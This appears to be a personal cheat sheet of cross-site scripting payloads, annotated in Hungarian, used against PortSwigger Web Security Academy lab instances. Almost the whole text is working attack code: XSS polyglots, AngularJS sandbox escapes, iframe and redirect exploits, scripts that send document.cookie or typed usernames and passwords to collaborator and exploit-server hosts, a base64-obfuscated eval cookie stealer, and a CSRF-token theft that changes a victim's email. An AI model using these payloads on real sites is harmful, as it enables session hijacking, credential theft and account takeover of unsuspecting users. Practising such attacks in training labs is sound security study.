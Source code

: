 <><SCript>alert(1)</SCript>


"><svg onload=alert(1)>


<img src=1 onerror=alert(1)>

commentben:
<><img src=1 onerror=alert(1)>

javascript:alert(document.cookie)


exploit serverbe:
<iframe src="https://0a18008d03221cf38046036c00c20021.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("letesztelni") )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("letesztelni")//>\x3e


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(document['cookie']) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(document['cookie'])//>\x3e


"></select>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("letesztelni") )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("letesztelni")//>\x3e


"onmouseover="alert(1)


{{constructor.constructor('alert(1)')()}}


{{$on.constructor('alert(1)')()}}


\"-alert(1)}//


<xss id=x tabindex=1 onfocus=alert(1)><


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(1) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(2)//>\x3ea
<><img src=1 onerror=alert(3)>


<><img src=1 onerror=alert(1)>


exploit serverbe:
<script>
location = 'https://0add00df0415f10881e16b000075005b.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>


exploit serverbe:
<iframe src="https://0ae800cc04eb684982872ac0006500e6.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=document.location=`https://exploit-0a32008804f9687e82932985016800df.exploit-server.net/?kookie=`+document.cookie%3E" onload=this.style.width='100px'>


httéps://blablabla.net/ után:
?'accesskey='x'onclick='alert(1)


httéps://blablabla.net/?search= után:
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E


\'-alert(1)//


</script><script>alert(1)</script>


Website mezőben:
http://foo?&apos;-alert(1)-&apos;


${alert(1)}


commentben:
<script>
    fetch('https://xyzbptj5cccuj168v3n6d8yklbr2ft3i.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>


commentben:
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://rid59n3zw6wo3vq2fx70x2ie55bwzond.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">


commentben:
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

===========================================================================

stage 1

PoC:
"+eval(atob("YWxlcnQoMSk="))}//

fetch("https://exploit-0a9b009e04a8929682d05f8e015100d4.exploit-server.net/?c="+btoa(document['cookie'])) base64-ezve:
ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp

"+eval(atob("ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp"))}//

<script>
location = "https://0a9700a504d29218829f608d009f0069.web-security-academy.net/?SearchTerm=%22%2Beval%28atob%28%22ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp%22%29%29%7D%2F%2F"
</script>

stage 1

PoC: "-Function`X${a}```-"
output: Uncaught ReferenceError: a is not defined

"-Function`X${document.location="https://exploit-0a600087031e75f78385ccb001050090.exploit-server.net/aabbcc="+document.cookie}```-"

url encode key chars: https://meyerweb.com/eric/tools/dencoder/

<script>
document.location = "https://0af400410395756e83d0cdfc003a001a.web-security-academy.net/?find=%22-Function`X${document.location=%22https://exploit-0a600087031e75f78385ccb001050090.exploit-server.net/aabbcc=%22%2document.cookie}```-%22"
</script>